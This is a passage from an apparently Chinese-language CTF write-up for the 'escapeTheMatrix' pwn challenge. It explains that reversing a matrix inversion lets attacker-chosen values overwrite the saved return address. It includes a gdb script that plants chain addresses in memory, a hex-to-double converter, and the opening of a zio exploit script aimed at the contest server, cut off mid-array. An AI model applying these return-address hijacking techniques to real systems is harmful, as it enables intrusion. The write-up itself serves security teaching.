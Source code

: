 如果该矩阵是存储的结果即逆矩阵，那么此时从a开始的位置，会在函数返回时当成rip，矩阵求逆的过程是可逆的，因此，为了求得固定的逆矩阵，可以将结果当成输入，即把a~i处的值替换成目的结果，求出最原始的的值，由于输入前也不好控制，因此在这里，直接写个gdb脚本来设置如下： 



```
target_name = "escapeTheMatrix_patch"
gdb.execute('file %s'%target_name)
proc_pid = execute_external_output("pidof %s"%target_name)[0].split(' ')[0]
gdb.execute("attach %s"%proc_pid)
gdb.execute("b *0x401018")
gdb.execute("c")
val_list = [0x401c33, 
0x400a60, 
0x401c31, 
0x603020,
0x400D75
]
for i in range(len(val_list)):
gdb.execute("set *(long long*)($rsi+0x20+0x10*14*8+(5+%d)*8)=0x%x"%(i, val_list[i]))
gdb.execute("b *0x4010F2")
gdb.execute("c")
```

将最终的结果，求出来以后，转换得到高精度的值，即求得小数点后面位数越多越好，如下：



```
#include &lt;stdio.h&gt;
int main()
`{`
while (1)
`{`
long long val;
printf("&gt;&gt; ");
scanf("%llx", &amp;val);
printf("%.32en", *(double *)&amp;val);
`}`
`}`
```

这样求出的结果直接转换成输入即可，最终利用代码如下：



```
from zio import *
is_local = True
is_local = False
binary_path = "./escapeTheMatrix_patch"
libc_file_path = ""
#libc_file_path = "./libc.so.6"
ip = "escapethematrix.quals.nuitduhack.com"
port = 50505
if is_local:
target = binary_path
else:
target = (ip, port)
def get_io(target):
r_m = COLORED(RAW, "green")
w_m = COLORED(RAW, "blue")
#io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m, env=`{`"LD_PRELOAD":libc_file_path`}`)
return io
def pwn_with_array(io, val_list):
arrays = [
1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
```